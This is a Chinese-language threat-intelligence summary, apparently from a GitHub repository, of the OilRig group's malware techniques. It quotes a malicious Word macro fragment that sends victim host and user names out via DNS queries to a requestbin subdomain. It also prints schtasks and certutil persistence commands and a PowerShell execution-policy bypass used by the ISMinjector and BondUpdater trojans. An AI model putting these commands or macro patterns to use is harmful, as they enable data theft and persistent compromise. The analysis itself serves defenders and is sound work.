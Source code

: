 # OilRig

## 特征

1. 使用带有DNS隧道的恶意宏来确认当前执行阶段和识别受害者信息.

```C
Sub Document_open()
       Randomize
       hostname = LCase(Environ("computername"))
       hostname = Mid(hostname, Len(hostname) - 3, 4)
       username = Mid(LCase(Environ("username")), 1, 3)
       domain = "子域名.requestbin.net"
       Call DnsQuery(myDomain(1)，DNS_TYPE_A, 0, 0, 0, 0)
```

2. 投递的后门文件会先收集受害者电脑的基础信息，然后根据系统环境的用户名、计算机名、域来计算一个4字节的受害者标识符，以用来后续的C2通信.

3. ISMinjector木马文件在做持久化时会创建两个计划任务.

```bash
SchTasks /Create /SC MINUTE /MO 4 /TN \"ReportHealth\" /TR \"%localappdata%\\srvHealth.exe\" /f
//每4分钟运行srvHealth.exe
SchTasks /Create /SC MINUTE /MO 2 /TN \"LocalReportHealth\" /TR \"cmd.exe /c certutil -decode %localappdata%\\srvBS.txt %localappdata%\\srvHealth.exe && schtasks /DELETE /tn LocalReportHealth /f && del %localappdata%\\srvBS.txt\""
//每2分钟运行一次，使用Certutil将srvBS.txt中的payload复制到srvHealth.exe并删除源文件
```

4. BondUpdater木马文件会在受害者启用钓鱼文档的宏时下载两个文件:

>	C:\ProgramData\WindowsAppPool\AppPool.vbs
>	C:\ProgramData\WindowsAppPool\AppPool.ps1

宏通过执行:wscript C:\ProgramData\WindowsAppPool\AppPool.vbs命令创建计划任务为cmd.exe /C schtasks /create /F /sc minute /mo 1 /tn "\WindowsAppPool\AppPool" /tr "wscript /b "C:\ProgramData\WindowsAppPool\AppPool.vbs""，使其BondUpdater含有持久性.
创建完计划任务后，将会通过PowerShell.exe -exec bypass -file C:\ProgramData\WindowsAppPool\AppPool.ps1，使用带有DNS隧道的C2通信.
